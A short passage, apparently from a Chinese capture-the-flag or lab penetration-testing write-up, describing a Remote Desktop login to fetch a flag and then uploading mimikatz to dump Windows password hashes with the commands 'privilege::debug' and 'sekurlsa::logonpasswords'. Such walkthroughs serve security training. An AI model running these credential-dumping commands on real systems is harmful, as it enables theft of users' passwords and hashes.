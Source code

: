 windows 设定规则 `mstsc` 单个

[![](assets/1710899037-d8b80472a2c5e6f5af14d82881398040.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240227205054-d7f8394e-d56e-1.png)

链接，在管理员命令行获取 flag2

[![](assets/1710899037-391c122e1c74d583bce49a567bcd32b0.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240227205057-da41dbc4-d56e-1.png)

下面，我们进一步去提取密码信息

### mimikatz 提取密码

上传一个 `mimikatz` 获取密码 hash  
命令，注意这里要用管理员运行

```plain
privilege::debug
sekurlsa::logonpasswords
```

